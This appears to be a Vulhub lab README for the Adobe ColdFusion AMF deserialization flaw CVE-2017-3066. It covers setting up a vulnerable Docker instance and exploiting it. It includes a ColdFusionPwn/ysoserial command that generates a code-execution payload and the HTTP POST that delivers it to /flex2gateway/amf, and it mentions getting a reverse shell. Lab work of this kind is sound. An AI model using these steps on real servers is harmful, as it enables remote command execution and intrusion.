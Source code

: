 # Adobe ColdFusion AMF Deserialization Remote Command Execution (CVE-2017-3066)

[中文版本(Chinese version)](README.zh-cn.md)

Adobe ColdFusion is a commercial rapid web-application development computing platform created by J. J. Allaire in 1995.

Adobe ColdFusion 2016 Update 3 and earlier, ColdFusion 11 update 11 and earlier, ColdFusion 10 Update 22 and earlier have a Java deserialization vulnerability in the Apache BlazeDS library. Successful exploitation could lead to arbitrary code execution.

参考链接：

- https://codewhitesec.blogspot.com.au/2018/03/exploiting-adobe-coldfusion.html
- https://www.exploit-db.com/exploits/43993
- https://github.com/codewhitesec/ColdFusionPwn

## Vulnerable environment

Start a Adobe ColdFusion 11 update 3:

```
docker-compose up -d
```

After a few minutes wait, visit `http://your-ip:8500/CFIDE/administrator/index.cfm` with password `vulhub`, you can install the Adobe ColdFusion successfully.

## Exploit

Generate a POC via [ColdFusionPwn](https://github.com/codewhitesec/ColdFusionPwn) in the `poc.ser`:

```
java -cp ColdFusionPwn-0.0.1-SNAPSHOT-all.jar:ysoserial-0.0.6-SNAPSHOT-all.jar com.codewhitesec.coldfusionpwn.ColdFusionPwner -e CommonsBeanutils1 'touch /tmp/success' poc.ser
```

Send the request to `http://your-ip:8500/flex2gateway/amf`, which contains the `application/x-amf` Content-Type and POC within the body:

```
POST /flex2gateway/amf HTTP/1.1
Host: your-ip:8500
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
Connection: close
Content-Type: application/x-amf
Content-Length: 2853

[...poc...]
```

![](1.png)

`/tmp/success` is successfully created:

![](2.png)

Get a reverse shell:

![](3.png)

